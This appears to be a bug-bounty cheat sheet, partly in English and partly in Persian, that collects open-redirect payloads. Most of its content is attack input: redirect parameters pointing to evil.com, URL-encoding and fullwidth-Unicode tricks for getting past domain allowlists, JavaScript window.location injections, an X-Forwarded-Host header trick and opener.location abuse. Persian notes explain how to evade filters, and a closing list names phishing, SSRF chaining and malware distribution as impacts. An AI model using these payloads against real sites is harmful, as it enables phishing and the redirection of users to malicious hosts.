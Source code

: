 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: site.com/.../current_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com   <<<===

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 
===>>> http://victim.com/page?redirect=http://evil.com
http://victim.com/page?url=https://evil.com
http://victim.com/page?next=//evil.com
http://victim.com/page?return=%2F%2Fevil.com
http://victim.com/page?redirect=https%3A%2F%2Fevil.com%2F
http://victim.com/page?redirect=///evil.com
http://victim.com/page?redirect=\/\evil.com
http://victim.com/page?redirect=javascript:window.location='http://evil.com'
http://victim.com/page?redirect=%3Cscript%3Ewindow.location='http://evil.com'%3C%2Fscript%3E
http://victim.com/page?redirect=//evil.com%00
http://victim.com/page?redirect=https://evil.com%2F%5C
===>>>
3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com , https://20.44.36.49//bing%E3%80%82com , https://20.44.36.49//yahoo%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload: {forget password}

===>>> example: https://20.44.36.49/.../google.com


==================================================================

نکته مهم درباره payloadهای Open Redirect
۱. بسیاری از اپلیکیشنها کنترل میکنند که URL مقصد فقط به دامنههای مشخصی اشاره کند (مثل فقط دامنه داخلی)، پس برای bypass باید گاهی payloadهایی شبیه به اینها استفاده کرد:

http://example.com/redirect?url=//evil.com (دو اسلش بدون schema)

http://example.com/redirect?url=/\evil.com

http://example.com/redirect?url=http:///evil.com

استفاده از کدگذاریهای URL (URL encoding): %2F%2Fevil.com

استفاده از کدگذاریهای Unicode یا دور زدن با کاراکترهای Unicode یا کاراکترهای غیرمعمول

۲. آزمایش با ترکیبی از کدگذاریها و کاراکترهای ویژه:

text
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=////evil.com
redirect=//evil.com%00
redirect=//evil.com/
توصیه من برای payloadهای Open Redirect بروز شده:
از encoded URL ها استفاده کنید (%3A, %2F, %5C)

دستورات جاوااسکریپت را با <script> یا بدون آن به صورت encoded ارسال نکنید مگر بدانید که برنامه این را قبول میکند (زیرا بیشتر این حالتها XSS است)

از مسیرهای نامتعارف و شیوههای encode و Unicode جهت دور زدن فیلترهای معمول استفاده کنید.

نمونه payloadهای به روز و موثر:
text
redirect=https://evil.com
redirect=//evil.com
redirect=///evil.com
redirect=/%5Cevil.com
redirect=%2F%2Fevil.com
redirect=/%2Fevil.com
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=%2F%2F%2Fevil.com
redirect=https://evil.com%00
redirect=https://evil.com%2F
redirect=%EF%BC%8E%EF%BC%8E%2Fevil.com   (دو نقطه fullwidth + اسلش)

==================================================================
## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
